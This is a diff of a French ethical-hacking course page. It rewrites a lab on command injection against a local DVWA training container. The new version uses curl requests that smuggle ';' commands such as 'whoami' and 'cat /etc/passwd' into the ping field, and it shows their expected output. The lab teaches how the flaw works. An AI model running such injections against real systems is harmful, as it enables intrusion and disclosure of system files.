

Before and after one commit to yugmerabtene/techniques-de-hacking-niveau-1, a Markdown page: JOUR-01-introduction-hacking-ethique-vulnerabilites.md, the part around one of its changes. Shown at 89% size. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
+++ b/JOUR-01-introduction-hacking-ethique-vulnerabilites.md
@@ -846,36 +846,68 @@ bash labs_resolution/jour-01/restore_sqli.sh
 
 ## LAB-5 — Command Injection + Reverse Shell
 
+### Fiche
+
 | Durée | Conteneur | Technique ATT&CK |
 |---|---|---|
 | 30 min | dvwa :8088 | [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell |
 
 ### Contexte technique
 
-La fonction `shell_exec("ping -c 4 " . $target)` exécute tout ce qui suit `ping`. Avec `;`, on chaîne une deuxième commande. Avec un reverse shell, on obtient un shell interactif complet — plus puissant qu'une simple commande.
-
-### Étape 1 — Command injection basique — [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell
-
-**Objectif :** Exécuter des commandes système arbitraires via le champ `ping` de DVWA.
-
-**Où ?** Terminal 1 — DVWA → Command Injection
-
-**Actions :**
-1. Remplacer l'IP cible par `127.0.0.1; whoami`
-2. Le `;` termine la commande `ping` légitime et enchaîne une nouvelle commande
-3. Tester `ls /etc/`, `cat /etc/passwd`
-
-**Commande :**
-```bash
-# Via l'interface web DVWA, dans le champ "Enter an IP address" :
-127.0.0.1; whoami     → www-data
-127.0.0.1; ls /etc/   → contenu du répertoire /etc/
-127.0.0.1; cat /etc/passwd → liste des utilisateurs système
-```
-
-**Résultat attendu :** La page affiche le résultat de la commande injectée après le résultat du ping. `whoami` confirme que le serveur web tourne sous l'utilisateur `www-data`.
-
-**Explication :** La fonction PHP `shell_exec()` passe la chaîne directement au shell système. Toute commande après `;` est exécutée comme une nouvelle commande. D'autres métacaractères fonctionnent aussi : `|` (pipe), `||`, `&&`, `` ` ``.
+La fonction PHP `shell_exec("ping -c 4 " . $target)` colle la variable `$target` directement dans une commande shell. Si `$target = 127.0.0.1; whoami`, le shell reçoit :
+
+```
+ping -c 4 127.0.0.1; whoami
+```
+
+Le `;` est un séparateur de commandes en bash. Il termine `ping` et enchaîne `whoami`. Résultat : on exécute n'importe quelle commande système.
+
+> 💡 **Métacaractères bash :** `;` = séparateur de commandes, `|` = pipe (sortie d'une commande → entrée de la suivante), `&&` = exécute si la précédente a réussi, `||` = exécute si la précédente a échoué. Tous fonctionnent ici.
+
+---
+
+### Étape 1 — CMDi basique (curl) — [T1059.004](https://attack.mitre.org/techniques/T1059/004/) Unix Shell
+
+**Objectif :** Exécuter des commandes système arbitraires via le paramètre `ip` du formulaire `ping`.
+
+**Où ?** Terminal 1
+
+**Prérequis :** Cookie DVWA valide dans `/tmp/dvwa_cookie.txt` (cf. setup_dvwa.sh).
+
+> 💡 **Où est le formulaire ?** L'outil "Command Injection" de DVWA est à l'URL `/vulnerabilities/exec/`. Il attend un champ `ip` et un bouton `Submit`. La requête est en POST. C'est la même logique que les labs précédents : on envoie une requête HTTP avec le cookie de session.
+
+**Actions :**
+1. Envoyer une requête POST normale → contenu du ping
+2. Injecter `; whoami` après l'IP → la commande est exécutée
+3. Tester `; ls /etc/`, `; cat /etc/passwd`
+
+**Commande :**
+```bash
+cd rendu_labs/jour-01
+
+# Test normal : un ping simple
+curl -s -b /tmp/dvwa_cookie.txt \
+  --data "ip=127.0.0.1&Submit=Submit" \
+  "http://localhost:8088/vulnerabilities/exec/" | grep -o "PING\|ping"
+# → PING  (le ping s'exécute normalement)
+
+# Injection : le ; chaîne une deuxième commande
+curl -s -b /tmp/dvwa_cookie.txt \
+  --data "ip=127.0.0.1; whoami&Submit=Submit" \
+  "http://localhost:8088/vulnerabilities/exec/" | grep -o "www-data\|PING"
+# → PING
+# → www-data  (la commande whoami a été exécutée sur le serveur)
+
+# Lire le fichier passwd
+curl -s -b /tmp/dvwa_cookie.txt \
+  --data "ip=127.0.0.1; cat /etc/passwd&Submit=Submit" \
+  "http://localhost:8088/vulnerabilities/exec/" | grep -o "root:x"
+# → root:x  (contenu du fichier passwd)
+```
+
+**Résultat attendu :** La réponse contient à la fois la sortie de `ping` ET le résultat de la commande injectée (`www-data`, `root:x`, etc.).
+
+**Explication :** PHP fait `shell_exec("ping -c 4 " . $target)`. Avec `ip=127.0.0.1; whoami`, la chaîne exécutée est `ping -c 4 127.0.0.1; whoami`. Le shell exécute `ping`, puis `whoami`. Le résultat des deux commandes est renvoyé dans la réponse HTTP.
 
 ---
 
````
Also changed, not shown: other parts of JOUR-01-introduction-hacking-ethique-vulnerabilites.md (+63 -28 lines).
